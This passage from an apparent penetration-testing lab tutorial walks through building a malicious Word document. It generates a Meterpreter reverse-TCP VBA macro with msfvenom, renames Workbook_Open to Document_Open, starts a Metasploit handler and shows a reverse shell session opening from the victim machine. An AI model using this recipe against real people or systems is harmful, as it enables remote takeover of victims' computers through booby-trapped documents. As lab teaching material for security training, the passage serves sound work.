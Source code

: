 ```
Terminal

           
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes


```

The value of the LHOST in the above terminal is an example of AttackBox's IP address that we used. In your case, you need to specify the IP address of your AttackBox.

Import to note that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the Workbook_Open() to Document_Open() to make it suitable for MS word documents.

Now copy the output and save it into the macro editor of the MS word document, as we showed previously.

From the attacking machine, run the Metasploit framework and set the listener as follows:

```
Terminal

           
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 


```

Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.

```
Terminal

           
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209) at 2021-12-13 10:46:05 +0000
meterpreter >


```
